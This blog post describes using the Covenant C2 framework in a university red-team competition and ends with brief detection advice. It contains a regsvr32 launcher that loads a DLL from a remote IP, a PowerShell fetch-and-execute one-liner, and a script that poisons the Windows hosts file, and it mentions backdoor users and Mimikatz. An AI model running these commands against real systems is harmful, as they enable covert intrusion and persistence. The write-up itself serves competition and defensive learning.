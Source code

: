 ```yaml
---
title: Power of Covenant
author: NotoriousRebel
date: 2019-05-01
hero: ./images/pwnboard_image.png
excerpt: Deploying Covenant
---
```

# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](./images/plan.png)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

<div className="Image__Medium">
  <img src="./images/easy_deployment.png" alt="Easy-Deployment" />
  <h4 >Docker commands to run to covenant </h4>
</div>


In reality we would want to tack on -d when composing Covenant
to background it. 
Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

<div className="Image__Medium">
  <img src="./images/launcher.png" alt="Launcher" />
  <h4 >Using regsvr32 as our launcher </h4>
</div>

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](./images/example_powershell.png)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](./images/pwnboard.png)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](./images/post_topwnboard.png)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](./images/pwnboard_red.png)

At the start of the competition these are just some of the beacons.

![call_backs](./images/call_backs.png)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](./images/procexp_regsvr.png)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](./images/http_traffic.png)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](./images/long-command.png)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)
